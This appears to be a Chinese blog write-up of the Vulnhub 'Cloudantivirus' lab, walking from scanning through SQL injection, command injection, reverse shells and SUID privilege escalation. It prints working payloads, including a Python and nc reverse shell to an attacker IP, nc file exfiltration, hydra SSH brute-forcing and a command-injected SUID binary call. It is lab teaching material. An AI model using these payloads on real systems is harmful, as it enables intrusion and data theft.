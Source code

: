 ﻿---
title: Chapter2_Easy_Cloudantivirus
categories:
- Network_Security
- Vulnhub
- Chapter2
tags:
- Network_Security
- Vulnhub
date: 2024-01-14 11:50:46
---

# Cloudantivirus 记录

## 1. 流程记录

### 1.1 扫描与发现

1. 主机发现，arp-scan 是偏向黑客工具，而 arping 是 Linux 发行版常见的工具。
    缺点：arping 不支持网段的扫描，因此需要结合 Linux 脚本循环命令使用。

    ```shell
    for i in $(seq 3 254); do sudo arping -c 2 192.168.0.$i; done
    # 扫描 192.168.0.3-254，-c 表示 count
    ```

2. 端口扫描：
    `sudo nmap -Pn -sV 192.168.0.104 -p 1-65535`
    ![image-20240112141214011](image-20240112141214011.png)

3. 目录爆破
    `dirsearch -u http://192.168.0.104:8080/`
    ![image-20240112142933497](image-20240112142933497.png)
    访问了之后，没啥可利用的页面

4. burp fuzz 一下特殊符号，看看异常：

    ![image-20240112142910986](image-20240112142910986.png)
    发现 `"` 异常厉害，着重关注一下。

### 1.2 打点

1. 发现 SQL 注入，万能密码开梭 `1" or 1=1 -- -`，进入系统：
    ![image-20240112144303351](image-20240112144303351.png)

2. 猜测是命令执行漏洞，逻辑是 `./扫描程序 文件名`，先用 `hello | id` 检测：
    ![image-20240112145302878](image-20240112145302878.png)
    验证成功，确实是。

### 1.3 反弹 Shell

1. 使用 Python 来反弹 shell，又或者看目标机器上是否有 NC：
    `hello | python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.2",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'`
    用 NC：

    ```bash
    hello | which nc
    hello | /bin/nc 192.168.0.2 4444 -e /bin/sh # 低版本的 NC 没有 -e 参数
    hello | /bin/nc 192.168.0.2 4444 # 测试发现可行，但没有返回 Shell
    ```

2. NC 串联：
    `hello | /bin/nc 192.168.0.2 4444 | /bin/bash | /bin/nc 192.168.0.2 5555 # nc 串联，使用 | 将结果向后传递。`
    创建两个监听端口后，4444 端输入的内容会在靶机的 /bin/bash 下执行，（由于管道符 `|`)，结果会发送到 5555 端：
    ![image-20240112151651716](image-20240112151651716.png)

### 1.4 内部的信息收集与提权

1. 用下载他的 database.sql 文件，本机执行一下，看看有什么特殊信息：

    ```bash
    file database.sql # 发现是 sqlite3 的数据库文件
    nc -vlnp 6666 > db.sql
    nc 192.168.0.2 6666 < database.sql # 在 4444 中执行，将该文件的内容传输到连接通道中去。
    sqlite3 # kali 中打开数据库环境
    sqlite> .open db.sql # 打开数据库文件
    sqlite> .database # 查看当前加载的数据库
    sqlite> .dump # 查看脚本内容
    ```

2. 看样子都是密码，考虑这个密码是不是登录界面的密码，尝试了一下，确实是。同时猜测是否是其 ssh 的密码：
    ```bash
    cat /etc/passwd
    cat /etc/passwd | grep /bin/bash # 筛选能通过 ssh 登录的用户
    ```

    生成用户名和密码（来自数据库）字典，用 hydra 爆破。
    ```bash
    vim username.txt
    vim password.txt
    hydra -L username.txt -P password.txt ssh://192.168.0.104
    ```

    结果没用。

3. 放弃，从其他的角度寻找提权的方式，再进行信息收集，查看文件，结果在上级文件夹下，存在文件：
    ![image-20240112155614433](image-20240112155614433.png)
    update_cloudav 符合 suid 提权条件：

    > https://blog.csdn.net/lv8549510/article/details/85406215
    >
    > suid 作用：给一个用户继承二进制程序所有者拥有的权限，即当执行该文件时，用户暂时获得该二进制文件所有者的权限。

    如果该文件中执行反弹 shell，那么生成的 shell 就有了 root 权限。
    update_cloudav 文件应该是 update_cloudav.c 的二进制文件。

4. 查看更新文件的源码：
    ![image-20240112160113060](image-20240112160113060.png)
    大概分析一下：`command` 变量为命令执行的语句，该命令调用了 `freshclam`（Clamav) 的程序，其中要求添加一个参数。
    再次构建 payload（参数中执行命令)：
    `./update_cloudav "a | nc 192.168.0.2 6666 | /bin/bash | nc 192.168.0.2 7777"`

5. 至此，提权结束：
    ![image-20240112160749970](image-20240112160749970.png)

## 2. 知识点总结

1. arping 与 shell 脚本的混合使用
2. NC 串联
3. ssh 密码爆破思路
4. suid 提权
